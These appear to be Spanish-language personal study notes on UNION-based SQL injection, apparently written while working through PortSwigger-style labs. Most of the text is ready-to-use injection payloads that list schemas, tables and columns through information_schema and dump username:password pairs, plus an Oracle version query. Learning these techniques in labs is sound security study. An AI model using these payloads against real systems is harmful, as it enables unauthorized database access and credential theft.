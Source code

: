 Ahora para que nos muestre todo el contenido de las tablas nos fijamos en lo siguiente:
select es el método de sql que selecciona y es seguido por la columna o database, o lo que mierda sea, from es desde que perspectiva voy a ver los datos y es seguido de una data base o algo de eso where donde nos ubicamos y puede seguir una columna, en este caso username es la columna de los nombres y seleccionamos el nombre. Aplicamos un union select que trae uno datos a la tabla seguido de los datos que queremos que se grafiquen en la tabla, en este caso table_name para el nombre de las tablas y tiene que ser del mismo numeros que las columnas en select, from desde que método le aplicamos que en este caso es el método de sql llamado "information_schema.schemata" o si queremos de las tablas en este caso sería "infromation_schema.tables", un where para indicar cual es la tabla que queremos utilizar, seguido de su nombre precedido por un table_schema
```
select password,subscription from users where username = 'admin' union select table_name,2 from information_schema.tables where table_schema='Marx';-- -';
```
Lo único que hice fue cambiar el método "infromation_schema.tables" por "information_schema.columns", "table_name" por "column_name" y aclarar el nombre de la tabla, porque de otra forma no estaría especificando a que columnas de que tabla leo
Lo mismo si quiero ver todos los de cada columna:
```
select password,subscription from users where username = 'admin' union select column_name,2 from information_schema.columns where table_schema='Marx' and table_name='users';-- -';
```
MOSTRAR SOLO NOMBRE DE USUARIO CON CONTRASEÑA
y si quiero concatenar los valores con un group_concat:
```
select password,subscription from users where username = 'admin' union select 1,group_concat(username,':',password) from users;-- -';
```
también hay que tener en cuenta que buscará en la base de datos en la que estamos situados, para aclarar en que base de datos buscar: ponemos el nombre de la base de datos antecediendo al nombre de la (table en la parte del from)
```
select password,subscription from users where username = 'admin' union select 1,group_concat(username,':',password) from databaseName.users;-- -';
```
las queries de [[portswiger]] son media rompebolas, podemos verla en detalle acá [machetes](https://portswigger.net/web-security/sql-injection/cheat-sheet) pero la concatenaríamos así
```
' union select NULL,username||':'||password from users-
```
| La query que nos muestra los esquemas es esta:
```
'union select NULL,schema_name from information_schema.schemata-- -
```
Suponiendo que en uno de los resultados salió public, y queremos ver solo por sus datos le mandamos así:
```
'union select NULL,table_name from information_schema.tables where table_schema='public'-- -
```
Porque tenemos el nombre de la tabla, peor como también tenemos el nombre de la tabla, le mandamos: 
```
'union select NULL,table_name from information_schema.columns where table_schema='public' and table_name='users'-- -
```
para hacer de los usuarios:
```
'union select NULL,username from users-- -
```
y para filtrar por contaseña
```
'union select NULL,concat(username,':',password) from users-- -
```
para hacerlo con oracle hay que aclarar desde done con un "from DUAL"
```
'union select NULL,banner from v$version-- -
```
